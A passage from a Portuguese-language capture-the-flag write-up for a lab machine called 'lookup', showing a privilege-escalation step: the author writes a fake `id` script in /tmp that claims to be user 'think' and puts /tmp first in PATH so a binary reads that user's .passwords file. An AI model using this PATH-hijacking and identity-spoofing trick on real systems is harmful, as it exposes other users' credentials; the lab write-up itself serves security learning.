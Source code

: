 O binário, como vimos, verifica o nome do usuário e depois verifica o conteúdo do arquivo `.passwords` no diretório `home` desse usuário. Não podemos simplesmente criar um arquivo `/bin/bash`, porque a informação da saída do comando `id` é usada para determinar qual diretório `home` será verificado.

Vamos criar o seguinte arquivo `id` no diretório `/tmp`.

```bash
www-data@lookup:/tmp$ echo -e '#!/bin/bash\necho "uid=33(think) gid=33(www-data) groups=33(www-data)"' > /tmp/id
www-data@lookup:/tmp$ cat id
#!/bin/bash
echo "uid=33(think) gid=33(www-data) groups=33(www-data)"
www-data@lookup:/tmp$ 
```

Agora vamos inserir o diretório `/tmp` no `PATH`, para que o nosso script criado seja utilizado.

```shell
www-data@lookup:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@lookup:/tmp$ export PATH=/tmp:$PATH
www-data@lookup:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@lookup:/tmp$ 
```

Quando o sistema executa alguma variável de ambiente, ele verifica os diretórios contidos no `PATH` da esquerda para a direita. Sendo assim, o primeiro diretório a ser verificado será o `/tmp`.   
Vamos executar o binário novamente.

![content passwords](/assets/img/posts/2025/02/lookup/content_passwords.png)

